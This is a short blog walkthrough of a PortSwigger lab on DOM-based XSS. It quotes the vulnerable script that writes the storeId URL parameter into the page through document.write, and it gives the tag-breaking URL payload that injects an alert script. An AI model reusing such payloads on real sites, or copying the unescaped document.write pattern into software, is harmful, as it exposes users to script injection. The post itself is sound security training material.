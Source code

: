 #+TITLE: WSA: DOM XSS in document.write sink using source location.search
#+DATE: <2024-02-27 10:07>
#+DESCRIPTION:  Walktrough of WSA Lab: DOM XSS in document.write sink using source location.search inside a select element
#+FILETAGS: wsa xss domxss

* Introduction
Not much to say here, just glad to have found some time for challenges ;P

* Challenge
You can check the lab out: [[https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element][here]]

Starting with the usual progress, checking stuff, while allowing all
traffic through our proxy to be able to replicate any requests later
on. [fn:1]

In each product page there is a "Check Stock" functionality, which
after previewing the source code, is handled by the following
javascript snippet:
#+NAME: Vulnerable snippet
#+begin_src javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
#+end_src

In our request we can see that, the variables can be modified:
#+begin_example
productId=1&storeId=London
#+end_example

Sample link that gives us the desired output in console:
#+begin_example
https://0a0000f80482f11380d980510011009c.web-security-academy.net/product?productId=1&storeId=asdfasdf
#+end_example

After that it was tedious: We just had to get out of the existing
environments and add a script one:
#+begin_example
https://0a0000f80482f11380d980510011009c.web-security-academy.net/product?productId=1&storeId=</option></select><script>alert(1)</script>
#+end_example


* Summary
This was the first challenge I completed for the day, and I think it
was the perfect way to start it: not too easy, but at the same time
not too difficult.

Paying some attention to the vulnerable snippet was all that was
needed here!


* Footnotes

[fn:1] Not really necessary, knowing that we check for DOM XSS but all is fine. 
